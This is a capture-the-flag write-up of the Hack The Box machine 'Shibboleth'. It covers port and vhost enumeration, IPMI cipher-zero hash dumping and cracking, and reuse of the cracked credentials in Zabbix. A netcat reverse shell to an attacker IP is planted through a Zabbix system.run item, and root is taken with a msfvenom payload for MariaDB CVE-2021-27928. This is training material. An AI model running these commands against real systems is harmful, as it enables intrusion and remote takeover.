









# [MEDIUM] Shibboleth <br/>


## Enumeration
### NMAP

Starting to port scan using nmap. The following command is used to check the open ports only.
<br />

```bash
nmap -p- --min-rate 10000 10.10.11.124 -vvv 2>&1 | grep "Discovered open" | awk '{ print $4 }' | cut -d "/" -f 1
```
<br />Then the output is them passed to another nmap scan but this time it will do banner grabbing.
<br />

```bash

# Nmap 7.91 scan initiated Tue Mar 15 12:27:25 2022 as: nmap -sV -sC -p 80 -vvv -oA nmap-output-services.tcp 10.10.11.124
Nmap scan report for shibboleth.htb (10.10.11.124)
Host is up, received echo-reply ttl 63 (0.35s latency).
Scanned at 2022-03-15 12:27:25 EDT for 15s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: FlexStart Bootstrap Template - Index

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 15 12:27:40 2022 -- 1 IP address (1 host up) scanned in 14.81 seconds

```
<br />Quite unusual for an HTB box but it only has one open port which is port 80. This is the snip of the fron page looks like.<br />

<br />There is nothing here but a simple static page. Next is to try guessing any virtual hosts. I used ffuf.
<br />
### VHOST Enumeration

```bash
ffuf -u http://shibboleth.htb/ \
    -w <>/Discovery/DNS/subdomains-top1million-110000.txt \
    -H Host: FUZZ.shibboleth.htb -o vhosts -fc 302
```
<br /> ```-fc 302``` is added since without it any subdomain send to the server will redirect to the main site. We have to filter out status codes 302. Once the scan is finished, here is the result from the output file:
<br />
```bash 
cat ffuf/vhost/vhosts | jq | grep shibboleth.htb | grep "host"
```
<br />
<br />As can be seen, 3 subdomains can be seen:
- zabbix.shibboleth.htb
- monitor.shibboleth.htb
- monitoring.shibboleth.htb

<br />This is what they all look like when visited.<br />
 

### UDP Scanning
We don't have any credentials to enter in the login page. Simple admin/password and other usual creds and even default zabbix username password (Admin/zabbix) doesn't work. We have to enumerate the box more. UDP enumeration hasn't been done yet.
<br />Using the following command to enumerate UDP:
<br />
```bash
sudo nmap -sU --min-rate 10000 shibboleth.htb -vvv 
```
<br />Port 623 is open.<br />

<br />Next step is to banner grab.
<br />
```bash
sudo nmap -sU -sC --min-rate 10000 -p 623 shibboleth.htb -vvv
```
<br />
<br />Looks like nmap doesn't showed much result that is needed. Looking from this [site](https://www.speedguide.net/port.php?port=623), it seems that this is an IPMI service. Also [hacktricks](https://book.hacktricks.xyz/pentesting/623-udp-ipmi) has a great amount of information on how to enumerate and exploit this kind if service.
<br />We can use the metasploit console and IPMI modules 
<br />

### Exploiting IPMI Service
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```
<br />
<br />We want to check if the IPMI service is vulnerable to cipher 0. 
<br />
```bash
msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > run
```
<br />
<br />As can be seen it is vulnerable. Let's dump the hashes.
<br />
```bash
msf6 auxiliary(scanner/ipmi/ipmi_cipher_zero) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts shibboleth.htb
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
<br />
<br />We can save the hash part and try cracking it with hashcat
<br />
```bash
hashcat -m 7300 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<br />In hashcat the mode for IPMI2 RAKP HMAC-SHA1 is 7300.
<br />

### Logging In into Zabbix Dashboard
Creds is ```Administrator:ilovepumkinpie1```. We can test this credentials on the vhosts discovered.
<br />
<br />As can be seen the creds worked.

### Running Script Items in Zabbix Dashboard

In [Zabbix documentation](https://www.zabbix.com/documentation/5.0/en/manual/config/items/itemtypes/zabbix_agent), you can create an item with a supported key ```system.run``` that executes command on zabbix agent. To do this, from the home dashboard, go to ```Configuration```
<br />
<br />Then, select ```Hosts```
<br />
<br />Then the Hosts page will be loaded. There will be list of hosts and in this case there is only one which is ```shibboleth.htb```. Click the ```items```
<br />
<br />Then on the upper left, there is an button ```Create Item```. Click it.
<br />
<br />A form will pop up. The Name field can be of any value. The important here is the key. The following Key value is set: ```system.run[rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.31 9999 >/tmp/f, nowait]```. This is a reverse shell
<br />
<br />To execute it, Select Test...
<br />
<br />...then click ```Get value and Test```. It should execute the command. 
<br />
<br />

### Whoami and Privesc to ipmi-svc

After turning the shell into an interactive TTY, we can now snoop around. Turns out we are ```zabbix``` as user but the user goal for this is ```ipmi-svc```.
<br />
<br />We need to privesc to ```ipmi-svc```. Trying the same password from the Zabbix dashboard. ```ipmi-svc:ilovepumkinpie1```
<br />
<br />It turns out same password was used. We got user.

## Root Privesc 

### Zabbix configuration in /etc/zabbix
Checking the environmental variables of ```ipmi-svc``` there is a zabbix conf in one of them
<br />.
<br />Let's check if there are other configuration files we can look at in ```/etc/zabbix```
<br />
<br />The last 2 files seems to be interesting and can only be read by ipmi-svc. Turns out this conf has mysql password and username.
<br />
<br />Let's try this creds on mysql: ```zabbix:bloooarskybluh```
<br />
<br />Nice! The creds worked. Notice that the copyright is in 2000, 2018. This mariadb may be out of date and possibly vulnerable. 

### Running Processes - Mysql
When running ```ps -aef --forest```, it can be seen that the mysql server is running as root.
<br />
<br />We also noticed that the mysql may be out of date. Let's check then if there are any existing exploit for mysql MariaDB ```10.3.25 MariaDB ```. Turns out an [exploit procedure exists - CVE-2021-27928](https://github.com/Al1ex/CVE-2021-27928) for this version of mysql MariaDB.

### Mysql Exploitation (CVE-2021-27928)
Following the exploitation process. Creating the .so through msfvenom
<br />
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.15 LPORT=10000 -f elf-so -o CVE-2021-27928.so
```
<br />
<br />Now we have to transfer the .so file to the target host. We can serve it through http.server. After getting it we have to login to mysql and set wsrap_provider to the .so file. We should be able to execute commands as root
<br />
<br />
<br />The exploit worked! We have pwned the Shibboleth Machine.


<br />
<br />
<br />
<br />
